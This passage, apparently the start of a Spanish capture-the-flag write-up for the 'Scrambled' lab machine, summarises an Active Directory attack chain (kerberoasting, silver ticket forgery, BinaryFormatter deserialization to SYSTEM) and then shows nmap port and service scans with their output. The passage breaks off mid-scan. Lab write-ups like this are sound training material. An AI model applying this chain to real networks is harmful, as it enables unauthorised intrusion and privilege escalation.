





Scrambled es una máquina mediana con Windows Active Directory. Al enumerar el sitio web podremos intuir las credenciales del usuario "ksimpson". En el sitio web, también se indica que la autenticación NTLM está deshabilitada, lo que significa que se debe utilizar la autenticación Kerberos. Al enumerar las cuentas de usuario normales, se encuentra que la cuenta `SqlSvc` tiene un `Nombre principal de servicio` (SPN) asociado. Utilizaremos esta información para realizar un ataque conocido como "kerberoasting" y obtener el hash de "SqlSvc". Después de descifrar el hash y adquirir las credenciales para la cuenta `SqlSvc`, un atacante puede realizar un ataque de `silver ticket` para falsificar un ticket y hacerse pasar por el usuario `Administrador` en el servicio MSSQL remoto. La enumeración de la base de datos revela las credenciales del usuario "MiscSvc", que se puede usar para ejecutar código en la máquina remota mediante la comunicación remota de PowerShell. La enumeración del sistema cuando el nuevo usuario revela una aplicación `.NET`, que está escuchando en el puerto `4411`. La ingeniería inversa de la aplicación revela que está utilizando la clase insegura `Binary Formatter` para transmitir datos, lo que permite al atacante cargar su propia carga útil y obtener la ejecución del código como `nt Authority\system`.


# Enumeración

Iniciaremos con la enumeración de los puertos abiertos

```python
❯ nmap -p- --open --min-rate 5000 -vvv -Pn -n 10.10.11.168 -oG allportsScan

PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
80/tcp    open  http             syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
1433/tcp  open  ms-sql-s         syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
4411/tcp  open  found            syn-ack
5985/tcp  open  wsman            syn-ack
9389/tcp  open  adws             syn-ack
49667/tcp open  unknown          syn-ack
49673/tcp open  unknown          syn-ack
49674/tcp open  unknown          syn-ack
49686/tcp open  unknown          syn-ack
49730/tcp open  unknown          syn-ack

```

Conociendo los puertos abiertos enumeraremos los servicios y versiones que corren en los puertos abiertos que encontramos.

```python
❯ nmap -p53,80,88,135,139,389,445,464,593,636,1433,3268,3269,4411,5985,9389,49667,49673,49674,49686,49730 -sC -sV -n -Pn -vv 10.10.11.168 -oN servicesScan

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Scramble Corp Intranet
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-03-14 15:07:24Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2024-03-14T15:10:38+00:00; +17h34m43s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Issuer: commonName=scrm-DC1-CA/domainComponent=scrm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-03-14T14:52:34
| Not valid after:  2025-03-14T14:52:34
| MD5:   8efd:05a0:964b:a7a8:c95c:30b2:9f94:bd42
| SHA-1: c0c8:1cb7:0560:40c9:fae3:a393:1306:8e07:4cfc:71f2
| -----BEGIN CERTIFICATE-----
| MIIGHDCCBQSgAwIBAgITEgAAAAOdy2e+KMBIcgAAAAAAAzANBgkqhkiG9w0BAQUF
| ADBDMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFDASBgoJkiaJk/IsZAEZFgRzY3Jt
| MRQwEgYDVQQDEwtzY3JtLURDMS1DQTAeFw0yNDAzMTQxNDUyMzRaFw0yNTAzMTQx
| NDUyMzRaMBkxFzAVBgNVBAMTDkRDMS5zY3JtLmxvY2FsMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEAx+qyGKu72sw+Eo+ddHKBCPfbAFEywuKjkcvWDL+p
| 1BA5TRrUyUdwkhiTKBeTfXXYnydwDFkkr8Z6tlj5suOcDp6AHB0Pxj3q73LXOBw3
| xYcjCdOeJcAvLk2Q3lO2eoezi6I1/cP2iBt1roMht/xBl6Z+AN7zHb9jlWZeXq+M
| QKtd33wZVjQUShxwLg9jc12s+kLs4j+DHN6UYSLml5nKpF8EVxeBJR164DQzc0XQ
| BOD7rNieFcCzFGzjlpZUFwTaKYx+CeMk2OcE6hZOZq0+GPwrExiliHsZklh/Trlv
| cUS0eEVCzR9LsqmkOv516vz6tLRt6kbFZ4e5QYV3ggacwQIDAQABo4IDMTCCAy0w
| LwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQBy
| MB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAw
| eAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCA
| MAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFl
| AwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUYc/qSOE6+Lp4xpSg
| 4OLmyMK+KYcwHwYDVR0jBBgwFoAUCGlCGQotn3BwNjRGHOcdhhWbaJIwgcQGA1Ud
| HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049c2NybS1EQzEtQ0EsQ049REMx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXNjcm0sREM9bG9jYWw/Y2VydGlmaWNhdGVSZXZv
| Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
| MIG8BggrBgEFBQcBAQSBrzCBrDCBqQYIKwYBBQUHMAKGgZxsZGFwOi8vL0NOPXNj
| cm0tREMxLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1T
| ZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXNjcm0sREM9bG9jYWw/Y0FDZXJ0
| aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkw
| OgYDVR0RBDMwMaAfBgkrBgEEAYI3GQGgEgQQZxIub1TYH0SkXtctiXUFOYIOREMx
| LnNjcm0ubG9jYWwwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEEAYI3GQIBoDAELlMt
| MS01LTIxLTI3NDMyMDcwNDUtMTgyNzgzMTEwNS0yNTQyNTIzMjAwLTEwMDAwDQYJ
| KoZIhvcNAQEFBQADggEBAC1+0zZiJw07kOsv0Ii3b9Ba9z+2dpdxk1sh3Sx0CYcM
| a6p10rkWPdDgEg+6wM0LPP9bw/cmhhPnsJ7nmgwioqQxoyoCiANqKLcuKk5ZHBEV
| YlTWJX5FNiRjLTR/KqXv0CwizH5f6wP5AGUw/C5nevVd/RcP7MS58HHlWo1YxEiv
| Z87Jm6l0goimYnj6Ugg8Neg0ilo05qhztg0NLbFoN9GbrmJ6uiM4ZkNHgGt+LGQT
| 9rUieLrMJonDPDQVPJaOVlw2M96sGv5DDGgO+CPOLAXbCT1SSVSqnLHztRm6Ww5c
| 2kA765T/bXPYTlS+zBWkWv2OCj3W1dxQC+lFhLQtsXs=
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2024-03-14T15:10:38+00:00; +17h34m44s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Issuer: commonName=scrm-DC1-CA/domainComponent=scrm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-03-14T14:52:34
| Not valid after:  2025-03-14T14:52:34
| MD5:   8efd:05a0:964b:a7a8:c95c:30b2:9f94:bd42
| SHA-1: c0c8:1cb7:0560:40c9:fae3:a393:1306:8e07:4cfc:71f2
| -----BEGIN CERTIFICATE-----
| MIIGHDCCBQSgAwIBAgITEgAAAAOdy2e+KMBIcgAAAAAAAzANBgkqhkiG9w0BAQUF
| ADBDMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFDASBgoJkiaJk/IsZAEZFgRzY3Jt
| MRQwEgYDVQQDEwtzY3JtLURDMS1DQTAeFw0yNDAzMTQxNDUyMzRaFw0yNTAzMTQx
| NDUyMzRaMBkxFzAVBgNVBAMTDkRDMS5zY3JtLmxvY2FsMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEAx+qyGKu72sw+Eo+ddHKBCPfbAFEywuKjkcvWDL+p
| 1BA5TRrUyUdwkhiTKBeTfXXYnydwDFkkr8Z6tlj5suOcDp6AHB0Pxj3q73LXOBw3
| xYcjCdOeJcAvLk2Q3lO2eoezi6I1/cP2iBt1roMht/xBl6Z+AN7zHb9jlWZeXq+M
| QKtd33wZVjQUShxwLg9jc12s+kLs4j+DHN6UYSLml5nKpF8EVxeBJR164DQzc0XQ
| BOD7rNieFcCzFGzjlpZUFwTaKYx+CeMk2OcE6hZOZq0+GPwrExiliHsZklh/Trlv
| cUS0eEVCzR9LsqmkOv516vz6tLRt6kbFZ4e5QYV3ggacwQIDAQABo4IDMTCCAy0w
| LwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQBy
| MB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAw
| eAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCA
| MAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFl
| AwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUYc/qSOE6+Lp4xpSg
| 4OLmyMK+KYcwHwYDVR0jBBgwFoAUCGlCGQotn3BwNjRGHOcdhhWbaJIwgcQGA1Ud
| HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049c2NybS1EQzEtQ0EsQ049REMx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXNjcm0sREM9bG9jYWw/Y2VydGlmaWNhdGVSZXZv
| Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
| MIG8BggrBgEFBQcBAQSBrzCBrDCBqQYIKwYBBQUHMAKGgZxsZGFwOi8vL0NOPXNj
| cm0tREMxLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1T
| ZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXNjcm0sREM9bG9jYWw/Y0FDZXJ0
| aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkw
| OgYDVR0RBDMwMaAfBgkrBgEEAYI3GQGgEgQQZxIub1TYH0SkXtctiXUFOYIOREMx
| LnNjcm0ubG9jYWwwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEEAYI3GQIBoDAELlMt
| MS01LTIxLTI3NDMyMDcwNDUtMTgyNzgzMTEwNS0yNTQyNTIzMjAwLTEwMDAwDQYJ
| KoZIhvcNAQEFBQADggEBAC1+0zZiJw07kOsv0Ii3b9Ba9z+2dpdxk1sh3Sx0CYcM
| a6p10rkWPdDgEg+6wM0LPP9bw/cmhhPnsJ7nmgwioqQxoyoCiANqKLcuKk5ZHBEV
| YlTWJX5FNiRjLTR/KqXv0CwizH5f6wP5AGUw/C5nevVd/RcP7MS58HHlWo1YxEiv
| Z87Jm6l0goimYnj6Ugg8Neg0ilo05qhztg0NLbFoN9GbrmJ6uiM4ZkNHgGt+LGQT
| 9rUieLrMJonDPDQVPJaOVlw2M96sGv5DDGgO+CPOLAXbCT1SSVSqnLHztRm6Ww5c
| 2kA765T/bXPYTlS+zBWkWv2OCj3W1dxQC+lFhLQtsXs=
|_-----END CERTIFICATE-----
1433/tcp  open  ms-sql-s      syn-ack Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-03-14T15:02:28
| Not valid after:  2054-03-14T15:02:28
| MD5:   3815:1d44:7672:3782:4325:57c4:82a2:ee9b
| SHA-1: 68de:c399:d7b6:ac98:45a6:de9d:50c1:4953:cf9d:bfb2
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigAwIBAgIQX07xdyAwhrJCeCCBdTTm4DANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjQwMzE0MTUwMjI4WhgPMjA1NDAzMTQxNTAyMjhaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAOMupSW5
| gH9WH5JuZsvoV242MfbhavG1Z6Kiho+K3ZxJS+gaz7O+1HFxbl0HxrAu7mNtkBh2
| VoCkVYTJxgFQiYphgMo2hVUc36TRsPvwFpiRUVRtyGl41lKV+jdoIXEye0F5zevZ
| tOgNmbkQTrXsXEcBek8yRpFwG++FkzAv5idr9Y26vXdL3i8o91TIRO+34YOssZ/y
| Idxet2vQ+diDKM9D/7b+lbtp5RsPhFZ7yRJYeUvSoX0JUNXjVADSHeiEdMbtLe7n
| a+izYuEi9XHmdXDD3m1UBT4e9SqhMSsAyn+fE9KvvYaLdeiXudv2/gqsDlQrVtjB
| 75MtZmX9u/lf6n0CAwEAATANBgkqhkiG9w0BAQsFAAOCAQEATflkS36kSfILzjo9
| g8HsnDDfPpVn91SzV6hsMhaJaBl6SGpwnHPfn3rLxqm166w1vunZei3TJM9RR/nr
| aqgoRS+6VFlC25UuYe+jWXbkmxkUUufiVfxIF51xO8+CGmjuIB4CScTH0gDnXGPK
| zcR+O5feGqncqYGLB8cAwGusrReRgJHPasxQHxHZjfTCs8vLhtd2rboIIt8VKH/B
| tXEHbr9H1nBA+S2VxkUjYqmu9pLPMR/X8ecx23TMgOHgxMYfhsVGWL+uHYMv7e3n
| 1mmqSex8276klQ4eh9vcQlgR09PBW9cX+3GxSRH4lJVnfEEu7l0043CYImq457AT
| usreRA==
|_-----END CERTIFICATE-----
| ms-sql-info: 
|   10.10.11.168:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2024-03-14T15:10:38+00:00; +17h34m43s from scanner time.
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Issuer: commonName=scrm-DC1-CA/domainComponent=scrm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-03-14T14:52:34
| Not valid after:  2025-03-14T14:52:34
| MD5:   8efd:05a0:964b:a7a8:c95c:30b2:9f94:bd42
| SHA-1: c0c8:1cb7:0560:40c9:fae3:a393:1306:8e07:4cfc:71f2
| -----BEGIN CERTIFICATE-----
| MIIGHDCCBQSgAwIBAgITEgAAAAOdy2e+KMBIcgAAAAAAAzANBgkqhkiG9w0BAQUF
| ADBDMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFDASBgoJkiaJk/IsZAEZFgRzY3Jt
| MRQwEgYDVQQDEwtzY3JtLURDMS1DQTAeFw0yNDAzMTQxNDUyMzRaFw0yNTAzMTQx
| NDUyMzRaMBkxFzAVBgNVBAMTDkRDMS5zY3JtLmxvY2FsMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEAx+qyGKu72sw+Eo+ddHKBCPfbAFEywuKjkcvWDL+p
| 1BA5TRrUyUdwkhiTKBeTfXXYnydwDFkkr8Z6tlj5suOcDp6AHB0Pxj3q73LXOBw3
| xYcjCdOeJcAvLk2Q3lO2eoezi6I1/cP2iBt1roMht/xBl6Z+AN7zHb9jlWZeXq+M
| QKtd33wZVjQUShxwLg9jc12s+kLs4j+DHN6UYSLml5nKpF8EVxeBJR164DQzc0XQ
| BOD7rNieFcCzFGzjlpZUFwTaKYx+CeMk2OcE6hZOZq0+GPwrExiliHsZklh/Trlv
| cUS0eEVCzR9LsqmkOv516vz6tLRt6kbFZ4e5QYV3ggacwQIDAQABo4IDMTCCAy0w
| LwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQBy
| MB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAw
| eAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCA
| MAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFl
| AwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUYc/qSOE6+Lp4xpSg
| 4OLmyMK+KYcwHwYDVR0jBBgwFoAUCGlCGQotn3BwNjRGHOcdhhWbaJIwgcQGA1Ud
| HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049c2NybS1EQzEtQ0EsQ049REMx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXNjcm0sREM9bG9jYWw/Y2VydGlmaWNhdGVSZXZv
| Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
| MIG8BggrBgEFBQcBAQSBrzCBrDCBqQYIKwYBBQUHMAKGgZxsZGFwOi8vL0NOPXNj
| cm0tREMxLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1T
| ZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXNjcm0sREM9bG9jYWw/Y0FDZXJ0
| aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkw
| OgYDVR0RBDMwMaAfBgkrBgEEAYI3GQGgEgQQZxIub1TYH0SkXtctiXUFOYIOREMx
| LnNjcm0ubG9jYWwwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEEAYI3GQIBoDAELlMt
| MS01LTIxLTI3NDMyMDcwNDUtMTgyNzgzMTEwNS0yNTQyNTIzMjAwLTEwMDAwDQYJ
| KoZIhvcNAQEFBQADggEBAC1+0zZiJw07kOsv0Ii3b9Ba9z+2dpdxk1sh3Sx0CYcM
| a6p10rkWPdDgEg+6wM0LPP9bw/cmhhPnsJ7nmgwioqQxoyoCiANqKLcuKk5ZHBEV
| YlTWJX5FNiRjLTR/KqXv0CwizH5f6wP5AGUw/C5nevVd/RcP7MS58HHlWo1YxEiv
| Z87Jm6l0goimYnj6Ugg8Neg0ilo05qhztg0NLbFoN9GbrmJ6uiM4ZkNHgGt+LGQT
| 9rUieLrMJonDPDQVPJaOVlw2M96sGv5DDGgO+CPOLAXbCT1SSVSqnLHztRm6Ww5c
| 2kA765T/bXPYTlS+zBWkWv2OCj3W1dxQC+lFhLQtsXs=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-03-14T15:10:40+00:00; +17h34m44s from scanner time.
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2024-03-14T15:10:38+00:00; +17h34m44s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Issuer: commonName=scrm-DC1-CA/domainComponent=scrm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-03-14T14:52:34
| Not valid after:  2025-03-14T14:52:34
| MD5:   8efd:05a0:964b:a7a8:c95c:30b2:9f94:bd42
| SHA-1: c0c8:1cb7:0560:40c9:fae3:a393:1306:8e07:4cfc:71f2
| -----BEGIN CERTIFICATE-----
| MIIGHDCCBQSgAwIBAgITEgAAAAOdy2e+KMBIcgAAAAAAAzANBgkqhkiG9w0BAQUF
| ADBDMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFDASBgoJkiaJk/IsZAEZFgRzY3Jt
| MRQwEgYDVQQDEwtzY3JtLURDMS1DQTAeFw0yNDAzMTQxNDUyMzRaFw0yNTAzMTQx
| NDUyMzRaMBkxFzAVBgNVBAMTDkRDMS5zY3JtLmxvY2FsMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEAx+qyGKu72sw+Eo+ddHKBCPfbAFEywuKjkcvWDL+p
| 1BA5TRrUyUdwkhiTKBeTfXXYnydwDFkkr8Z6tlj5suOcDp6AHB0Pxj3q73LXOBw3
| xYcjCdOeJcAvLk2Q3lO2eoezi6I1/cP2iBt1roMht/xBl6Z+AN7zHb9jlWZeXq+M
| QKtd33wZVjQUShxwLg9jc12s+kLs4j+DHN6UYSLml5nKpF8EVxeBJR164DQzc0XQ
| BOD7rNieFcCzFGzjlpZUFwTaKYx+CeMk2OcE6hZOZq0+GPwrExiliHsZklh/Trlv
| cUS0eEVCzR9LsqmkOv516vz6tLRt6kbFZ4e5QYV3ggacwQIDAQABo4IDMTCCAy0w
| LwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQBy
| MB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAw
| eAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCA
| MAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFl
| AwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUYc/qSOE6+Lp4xpSg
| 4OLmyMK+KYcwHwYDVR0jBBgwFoAUCGlCGQotn3BwNjRGHOcdhhWbaJIwgcQGA1Ud
| HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049c2NybS1EQzEtQ0EsQ049REMx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPXNjcm0sREM9bG9jYWw/Y2VydGlmaWNhdGVSZXZv
| Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
| MIG8BggrBgEFBQcBAQSBrzCBrDCBqQYIKwYBBQUHMAKGgZxsZGFwOi8vL0NOPXNj
| cm0tREMxLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1T
| ZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXNjcm0sREM9bG9jYWw/Y0FDZXJ0
| aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkw
| OgYDVR0RBDMwMaAfBgkrBgEEAYI3GQGgEgQQZxIub1TYH0SkXtctiXUFOYIOREMx
| LnNjcm0ubG9jYWwwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEEAYI3GQIBoDAELlMt
| MS01LTIxLTI3NDMyMDcwNDUtMTgyNzgzMTEwNS0yNTQyNTIzMjAwLTEwMDAwDQYJ
| KoZIhvcNAQEFBQADggEBAC1+0zZiJw07kOsv0Ii3b9Ba9z+2dpdxk1sh3Sx0CYcM
| a6p10rkWPdDgEg+6wM0LPP9bw/cmhhPnsJ7nmgwioqQxoyoCiANqKLcuKk5ZHBEV
